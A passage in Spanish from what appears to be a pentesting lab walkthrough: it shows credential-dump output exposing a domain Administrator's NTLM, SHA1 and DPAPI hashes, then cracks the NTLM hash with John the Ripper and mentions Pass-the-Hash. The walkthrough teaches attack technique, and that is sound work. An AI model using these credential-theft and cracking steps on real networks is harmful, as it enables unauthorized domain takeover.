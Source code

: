 Pero si podemos ver esta parte:

```
Authentication Id : 0 ; 3253663 (00000000:0031a59f)
Session           : Interactive from 0
User Name         : Administrator
Domain            : CORP
Logon Server      : DC01
Logon Time        : 19/01/2025 9:52:13
SID               : S-1-5-21-3352250647-938130414-2449934813-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : CORP
         * NTLM     : a87f3a337d73085c45f9416be5787d86
         * SHA1     : 34957e9ba3455a4a99d722b48693ac1123ba5dba
         * DPAPI    : b937fc9669fa922df0050d0d2f6d5de4
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : CORP
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : CORP.LOCAL
         * Password : (null)
        ssp :
        credman :
        cloudap :
```

Vemos que hemos obtenido las credenciales `NTLM` del usuario `Administrador` del dominio, solo siendo `administrador` local del equipo.

Ahora con este `hash` `NTLM` lo que podemos hacer es intentar `crackearlo` o hacer un `Pass-The-Hash`, pero `crackearlo` seria de la siguiente forma:

Nos vamos a nuestro `kali`:

```shell
echo a87f3a337d73085c45f9416be5787d86 > admin.hash
john --format=NT admin.hash
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 128/128 AVX 4x3])
No password hashes left to crack (see FAQ)
```

Vemos que se `crackeo` correctamente, pero nosotros ya lo teniamos `crackeado` de antes, por eso aparece asi, pero si lo queremos ver seria asi:

```shell
john --format=NT admin.hash --show
```
